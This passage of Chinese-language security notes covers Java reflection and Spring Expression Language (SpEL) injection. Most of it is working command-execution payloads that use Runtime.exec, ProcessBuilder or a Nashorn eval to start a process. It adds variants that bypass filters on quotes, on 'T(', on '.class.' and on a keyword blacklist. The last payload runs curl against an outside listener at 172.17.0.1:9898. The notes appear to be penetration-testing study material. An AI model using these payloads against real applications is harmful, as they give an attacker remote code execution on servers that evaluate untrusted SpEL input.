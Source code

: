 * **第二种：通过类名全路径获得：**
　　**Class<?> class = Class.forName("类名全路径");**
![Y6tWtS.png](https://s1.ax1x.com/2020/05/16/Y6tWtS.png)

* **第三种：通过实例对象获得：**
　　**Class<?> class = object.getClass()**
![Y6tgTf.png](https://s1.ax1x.com/2020/05/16/Y6tgTf.png)

**命令执行**

利用runtime
```java
T(java.lang.Runtime).getMethod("exec","".class).invoke(T(java.lang.Runtime).getMethod("getRuntime").invoke(T(java.lang.Runtime)),"calc.exe")
```
![Y6wOSS.png](https://s1.ax1x.com/2020/05/16/Y6wOSS.png)

利用eval
```java
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder('calc').start();")
```
![Y6wbJf.png](https://s1.ax1x.com/2020/05/16/Y6wbJf.png)

引号被过滤
```java
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
```
![Y6rXhq.png](https://s1.ax1x.com/2020/05/16/Y6rXhq.png)

T( 被过滤
```java
T%00(java.io.File)
```
[![tk4Fmj.png](https://s1.ax1x.com/2020/05/27/tk4Fmj.png)](https://imgchr.com/i/tk4Fmj)

```java
1.class.forName("java.lang.Runtime").getMethod("exec","".class).invoke(1.class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(1.class.forName("java.lang.Runtime")),"calc.exe")
```

.class.被过滤
```java
1['class'].forName("java.lang.Runtime").getMethod("exec","".class).invoke(1['class'].forName("java.lang.Runtime").getMethod("getRuntime").invoke(1['class'].forName("java.lang.Runtime")),"calc.exe")
```
![Y6wqW8.png](https://s1.ax1x.com/2020/05/16/Y6wqW8.png)

黑名单过滤.getClass、.class.、.addRole、.getPassword、.removeRole、session\['class']
利用数组方式绕过
```java
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'curl 172.17.0.1:9898')
```
